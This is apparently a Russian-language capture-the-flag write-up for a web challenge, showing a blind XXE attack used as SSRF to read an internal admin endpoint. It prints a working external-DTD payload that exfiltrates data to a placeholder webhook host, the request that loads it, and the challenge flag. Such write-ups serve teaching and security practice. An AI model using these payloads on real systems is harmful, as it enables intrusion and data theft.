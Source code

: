 ## Служба поддержки VKAPhone 

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKAKIDS 2024 | VKAPhone | Web | hard |

  
### Описание


> Автор: [[seraphic_grin](https://t.me/seraphic_grin)]
>
Специалисты Военно-космической академии создали самый защищенный телефон. Обязательно оставьте обратную связь после покупки. 


### Решение
Дан лендинг телефона VKAPhone. Есть отзывы и обратная связь.
Из тела запросов при оставлении отзыва/обратной связи видно, что данные между клиентом и сервером передаются в XML формате. Вероятнее всего, имеет место уязвимость XXE(XML external entities).
- В исходном коде видно, что флаг хранится в БД Redis в хешмапе обратной связи под id=1. ![](setFlag.png)
- Есть интерфейс админа, доступ к которому есть только внутри докера. В этом интерфейсе можно читать все записи Redis.
- Таким образом, надо произвести SSRF на интерфейс админа, чтобы получить флаг (http://admin:3017/issues/1).
- Есть возмодность произвести SSRF через XXE, но при отправке обычных внешних сущностей (&xxe;) ничего не происходит по двум причинам:
    1. Запросы на создание отзыва строго фильтруются на наличие любых ссылок, к тому же тело самого сообщения фильтруется регулярным выражением, то есть результат XXE не будет виден на странице.![](filter.png)
    2. Запросы на создание обращение к поддержке (/api/issue) сохраняется в Redis, но нигде не выводится кроме интерфейса админа.
На помощь приходят параметрические сущности:
```
<!ENTITY % file SYSTEM "http://admin:3017/issues/1"> %file;
```
Таким образом следует вызвать внешний dtd, в котором произвести запрос на http://admin:3017/issues/1 и его результаты отправятся на вебхук. Разместить внешний dtd можно на любом бесплатном хостиинге статики.
Внешний dtd выглядит следующим образом:
```xml
<!ENTITY % file SYSTEM "http://admin:3017/issues/1">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://${WEBHOOKHOST}/?x=%file;'>">
%eval;
%exfiltrate;
```
Таким образом при отправлении отзыва/обратной связи следует отправить следующий пэйлоад:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ВАШХОСТ/remote.dtd"> %xxe; ]>
<Issue>
<email>adsds@erf.rg</email>
<message>ffff</message>
</Issue>
```
### Флаг возващается на вебхук:
![](webhookres.png)

### Флаг

```
vkactf{even_local_data_can_be_retrieved}
```